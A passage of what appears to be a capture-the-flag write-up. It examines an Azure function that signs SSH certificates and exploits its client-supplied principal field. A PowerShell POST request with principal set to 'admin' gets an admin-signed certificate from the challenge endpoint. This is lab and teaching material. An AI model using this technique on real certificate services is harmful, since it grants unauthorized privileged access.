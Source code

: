 ```python
            fields=cert_fields,
        )

        ssh_cert.sign()
        logging.info("SSH signed certificate: %s", ssh_cert.to_string())

        return func.HttpResponse(
            json.dumps({"ssh_cert": ssh_cert.to_string(), "principal": principal}),
            mimetype="application/json",
            status_code=200
        )
    except (ValueError, ValidationError) as err:
        return func.HttpResponse(
            json.dumps({"error": str(err)}),
            mimetype="application/json",
            status_code=400
        )
    except Exception as err:
        return func.HttpResponse(
            json.dumps({"error": f"Unexpected error: {str(err)}"}),
            mimetype="application/json",
            status_code=500
    )
```



Most notably in that source code, this line is intriguing based on what I have found so far:

```python
principal = data.get("principal", DEFAULT_PRINCIPAL)
```

If I adjust my post message to the Request SSH Certificate Azure App, I should be able to get a signed certificate with admin as the principal. I will use powershell for that, but first I need to create a new keypair for the user `alabaster@santaworkshopgeeseislands.org`, and save those public and private keys to the same ssh directory as I did for monitor.

```console
ssh-keygen -t rsa -C "alabaster@santaworkshopgeeseislands.org"
```

Now that I have the keypair generated, I can pivot to powershell and use that public key to request a certificate through Invoke-WebRequest while also passing the Principal property in the Post body:

```powershell
$uri = "https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl"

$body = @{
    #copy the contents of your generated public key here
    'ssh_pub_key' = 'ssh-rsa AAAAB3Nc....nr0gVLiRm9Of028= alabaster@santaworkshopgeeseislands.org'
    'principal' = 'admin'
    }

$body = $body | ConvertTo-Json

$content = Invoke-WebRequest -Uri $uri -Method POST -Body $body
$content.Content
```
